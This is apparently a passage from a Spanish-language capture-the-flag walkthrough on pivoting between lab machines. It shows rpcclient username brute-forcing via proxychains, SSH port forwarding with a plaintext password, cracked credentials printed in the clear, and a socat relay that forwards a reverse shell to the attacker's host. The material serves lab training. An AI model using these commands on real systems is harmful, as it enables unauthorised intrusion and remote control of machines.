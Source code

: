 ```bash
root@kali> cat /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt | xargs -P 10 -I {} proxychains rpcclient -N -U "" 10.0.2.4 -c "lookupnames {}" 2>&1 | grep -vE "NT_STATUS_NONE_MAPPED|proxychains"

<SNIP>
cyber S-1-22-1-1000 (User: 1)
<SNIP>
```

* Con esto ya tenemos credenciales `cyber:.2uqPEfj3D<P'a-3`.
* Tenemos 2 paneles **https://10.0.2.4:20000/ (Usermin)** y **https://10.0.2.4:10000/ (Webmin)**

f. Al momento de acceder a estos servicios se quedarán cargando y no podremos acceder, por lo que realizaremos **`Local Port Forwarding`** con **SSH** para acceder a un puerto a la vez

```bash
root@kali> sshpass -p 'DJceVy98W28Y7wLg' ssh -L 20000:10.0.2.4:20000 travis@192.168.100.27
```

* **`20000:10.0.2.4:20000`:** Decimos que el puerto **20000** de nuestra **`Máquina Atacante`** sea ocupado por el servicio que se ejecuta en el puerto **20000** de la **`Máquina Breakout`** 

    ```bash
    root@kali> lsof -i:20000
    COMMAND    PID USER  FD  TYPE DEVICE SIZE/OFF NODE NAME
    ssh     167141 root  4u  IPv6 929073  0t0  TCP localhost:20000 (LISTEN)
    ssh     167141 root  5u  IPv4 929074  0t0  TCP localhost:20000 (LISTEN)
    ```
    > Verificamos si el **`Local Port Forwarding`** funcionó.

e. Ahora podemos auntenticarnos en el servicio **Usermin** sin necesidad de un proxy https://127.0.0.1:20000/, una vez autenticados, presionamos **`Alt` + `K`** para desplegar una consola.

* Nos enviaremos una **reverse shell** a nuestra Máquina Atacante, pero, usaremos [socat](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat) para utilizar la **Máquina ICA1** como puente

* Subimos socat a la Máquina ICA1 y establecemos una regla para que toda conexión entrante por un puerto sea redirigido a otro host por un puerto dado

    ```bash
    bash-5.1# ./socat TCP-LISTEN:4444,fork TCP:<IP Atacante>:443
    ```
    > Toda conexión recibida por el puerto **`4444`** será redigirida a nuestra máquina atacante por el puerto **`443`**

* Nos ponemos en escucha con nc en nuestra Máquina Atacante, y enviamos la shell desde la terminal del servicio web al host **ICA1 (10.0.2.5)**
